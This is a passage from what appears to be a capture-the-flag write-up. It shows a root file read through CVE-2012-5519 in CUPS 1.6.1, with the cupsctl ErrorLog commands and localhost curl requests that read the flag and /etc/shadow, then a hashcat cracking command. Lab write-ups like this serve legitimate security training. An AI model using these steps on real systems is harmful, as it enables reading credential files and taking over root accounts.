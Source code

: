 Some Goolging for vulnerabilities in CUPs returns CVE-2012-5519, file read as root in CUPS 1.6.1, which matches the version here.

[This article](https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/escalate/cups_root_file_read) does a really nice job of both showing how to run the Metasploit module, and breaking down how it might fail.

Looking at [the exploit source](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/multi/escalate/cups_root_file_read.rb), it’s using `cupsctl` (saved in the `ctl_path` variable) in a current session to set the error log to a different file (`datastore['FILE']`):

```

cmd_exec("#{ctl_path} ErrorLog=#{datastore['FILE']}")

```

#### Read Flag

The first thing I can do is get `root.txt`. I’ll set it as the error log:

```

lp@antique:~$ cupsctl ErrorLog=/root/root.txt

```

Now I’ll just request that same URL:

```

lp@antique:~$ curl 127.0.0.1:631/admin/log/error_log?
b7d0a7d5ede96350d003e590c241cdc9

```

It works!

#### Shell Failures

I am able to read `/etc/shadow` to get the hashes of users on the filesystem:

```

lp@antique:/dev/shm$ cupsctl ErrorLog=/etc/shadow
lp@antique:/dev/shm$ curl 127.0.0.1:631/admin/log/error_log?
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
...[snip]...

```

The only user with a hash is root. I can try to crack it using `hashcat`, putting that full line into a file (`hash`), and running:

```

$ /opt/hashcat-6.2.5/hashcat.bin hash /usr/share/wordlists/rockyou.txt --user

```
